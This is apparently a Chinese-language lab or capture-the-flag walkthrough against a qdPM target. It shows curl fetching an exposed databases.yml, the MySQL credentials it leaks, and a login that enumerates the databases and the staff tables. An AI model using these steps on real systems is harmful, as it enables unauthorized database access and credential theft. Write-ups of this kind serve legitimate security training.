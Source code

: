 我们可以直接访问http://ipcore/config/databases.yml文件：

```shell
┌──(v4ler1an㉿kali)-[~]
└─$ curl http://172.16.86.143/core/config/databases.yml

all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true
```

文件中泄露了一个username和passwod: `qdpmadmin/UcVQCMQk2STVeS6J`。该文件是mysql数据库的配置文件，所以我们可以使用该用户登录mysql数据库。	

## 2. Login Mysql

使用上面获取的用户名和密码登录mysql数据库：

```shell
┌──(v4ler1an㉿kali)-[~]
└─$ mysql -u qdpmadmin -h 172.16.86.143 -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 58
Server version: 8.0.26 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| qdpm               |
| staff              |
| sys                |
+--------------------+
6 rows in set (0.002 sec)

MySQL [(none)]> use staff;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [staff]> show tables;
+-----------------+
| Tables_in_staff |
+-----------------+
| department      |
| login           |
| user            |
+-----------------+
3 rows in set (0.002 sec)
```
